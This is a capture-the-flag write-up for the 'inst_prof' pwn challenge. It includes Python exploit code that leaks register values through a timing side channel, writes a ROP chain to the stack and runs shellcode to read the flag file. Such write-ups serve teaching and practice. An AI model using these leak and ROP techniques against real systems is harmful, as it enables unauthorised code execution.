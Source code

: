 # inst_prof

This challenge accepts 4 Bytes of Instructions and executes them in a tight loop, returning the runtime.
The do_test function is called in a while-true loop.
The Pseudocode looks as follows:

```c
void read_inst(void *page)
{
    read_n(page, 4);
}

void do_test()
{
    void *page = alloc_page()
    read_inst(page); //Insert 4 Bytes from User into a Template
    make_page_executable(page)

    r12 = rdtsc;
    ((void (*)())page)();
    rdx = rdtsc - r12;

    write(1, rdx, 8);
    free_page(page);
}
```

The disassembly of the Template:

```assembly
mv ecx, 0x1000
your_code:
<your 4 bytes>
sub ecx, 1
jne your_code
ret
```

## Leaking Stuff
First of all we noticed, that the registers r14 and r15 are not altered between two iterations.
This allows to preserve minimal state between two executions.
To leak registers, we stored the value to leak in r15 and extracted the value bit by bit.

```python
def leak_r15(lowest_bit=0, highest_bit=48):
    #skip not needed bits
    for n_bit in range(0, lowest_bit):
        execute("shr r15,1; ret")

    #leak
    leak = 0
    for n_bit in range(lowest_bit, highest_bit+1):
        #prepare bit mask
        execute("xor r14, r14")
        execute("inc r14; ret")
        execute("and r14, r15")

        #leak
        t = execute("sub r12, r14")
        if t > thres:
            leak |= 1 << n_bit

        #shfit r15
        execute("shr r15,1; ret")

    return leak
```

As r12 holds the start timestamp, the returned runtime can be artificialy increased depending on r14.
The time difference between 0 and 1 bits is roughly factor 2.
Even though, as we only use one attempt to read a bit (without averagig) to reduce the toal runtime, this attemp of leaking fails sometimes.


## Writing to Stack
To prepare a ropchain, we need to write arbitrary data to Stack.
The address we want to write to is stored in r15.
```python
def write_buff(what):
    for c in what:
        execute("movb [r15],0x%02x" % ord(c))
        execute("inc r15; ret")
```

## Exploit
The binary already contains lots of nice gadgets, such as alloc_page, read_n and make_page executable.
First we have to leak the address of the old Page and of course the binary base address for the ROP gadgets.

```python
execute("pop r15; push r15")
binary_base = leak_r15(lowest_bit=12,highest_bit=40) | 0x550000000000

execute("mov r15, rdi")
page_old = leak_r15(lowest_bit=12,highest_bit=48)
```

Then we prepare the rop chain.
We used the gadgets to allocate a new page, read arbitrary data and execute it.
rsi already contains 0x1000, the size of one page, what was usefull for alloc_page and read_n.
As the behavior for mmap is deterministic, we can compute the address of the newly allocated page from the previous allocated one.

```python
alloc_page = binary_base + 0x9f0
pop_rdi = binary_base + 0xbc3
read_n = binary_base + 0xa80
make_page_executable = binary_base + 0xa20
pop_rbx_r12_rbp = binary_base + 0xaab
call_rbx = binary_base + 0xb16

ropchain  = struct.pack("<Q", alloc_page)
ropchain += struct.pack("<Q", pop_rdi)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", read_n)
ropchain += struct.pack("<Q", pop_rdi)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", make_page_executable)
ropchain += struct.pack("<Q", pop_rbx_r12_rbp)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", call_rbx)
```

To write the ropchain without crashing the programm, we used rsp+0x1000 as a target and placed it in front of the mains stack frame.

```python
execute("mov %r15, %rsp; ret")
execute("inc %r15")
write_buff(ropchain)
```

Then we write the address of the ROP chain to rsp to trigger the execution.
```python
execute("mov r15, rsp; ret")
execute("inc r15")
CODE = asm("mov rsp,r15; ret").ljust(4, asm("nop"))
con.send(CODE)
con.send(shellcode)
con.send("cat flag.txt\n")
```

After some attempts, the Flag shows up:
```
CTF{0v3r_4ND_0v3r_4ND_0v3r_4ND_0v3r}
```

# Files
- [Binary](inst_prof)
- [Patched binary](patched_inst_prof)
- [Exploit](exploit.py)
